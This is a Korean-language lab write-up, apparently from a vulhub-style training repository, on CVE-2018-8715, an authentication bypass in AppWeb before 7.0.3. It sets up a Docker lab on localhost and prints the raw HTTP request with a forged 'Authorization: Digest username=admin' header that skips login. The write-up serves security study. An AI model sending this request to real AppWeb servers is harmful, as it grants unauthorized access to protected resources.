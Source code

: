 # AppWeb Authentication Bypass vulnerability (CVE-2018-8715)

 > 화이트햇 스쿨 3기 - 이서현([@seohyun09](https://github.com/seohyun09))

<br />

### 요약

  - AppWeb은 다음 세 가지 인증 방식을 지원한다.

    - Basic 인증 : 전통적인 HTTP Basic 인증 방식
   
    - Digest 인증 : 기본 인증을 개선한 방식으로, Authroization 헤더 대신 쿠키를 사용
   
    - From 인증 : HTML 기반 폼을 통한 인증
   
  - 그러나 AppWeb 7.0.3 이전 버전에는 `authCondition` 함수의 논리적 결함이 존재하여, 위조된 HTTP 요청을 통해 from 및 diget 로그인 유형에 대한 인증을 우회할 수 있는 취약점이 존재한다.

<br />

### 환경 구성 및 실행

  - `docker compose up -d`를 실행 후, `http://localhost:8080`에 접속한다.

  - 사용자 이름과 비밀번호를 입력해야 하는 창이 뜬다.
    
     <img width="500" src="https://github.com/seohyun09/kr-vulhub/blob/main/AppWeb/CVE-2018-8715/1.png">

  - 사용자 이름은 `admin`, 인증(비밀번호)을 위해서 다음과 같은 요청을 통해 우회할 수 있다.
    
    ```
    GET / HTTP/1.1
    Host: example.com
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Authorization: Digest username=admin
    
    ```
    
  - Postman을 이용하여 Exploit 헤더로 요청을 보낸다.

    - Exploit을 수행하지 않은 경우 (401 Unauthorized 에러 발생)
      
      <img width="500" src="https://github.com/seohyun09/kr-vulhub/blob/main/AppWeb/CVE-2018-8715/2.png">


    - Exploit을 수행하여 인증을 우회한 경우 (200 OK 응답)

      <img width="500" src="https://github.com/seohyun09/kr-vulhub/blob/main/AppWeb/CVE-2018-8715/3.png">

<br />

### 결론

AppWeb 7.0.3 이전 버전은 인증 로직의 취약점으로, 정상적인 인증 없이 리소스에 접근할 수 있다. 따라서, 인증 및 권한을 부여하는 로직을 설계할 때는 모든 입력과 과정을 철저하게 검증하고, 예상치 못한 우회 경로를 차단하는 것이 중요하다.

<br />

### 참고 

> [CVE-2018-8715](https://github.com/vulhub/vulhub/tree/master/appweb/CVE-2018-8715)
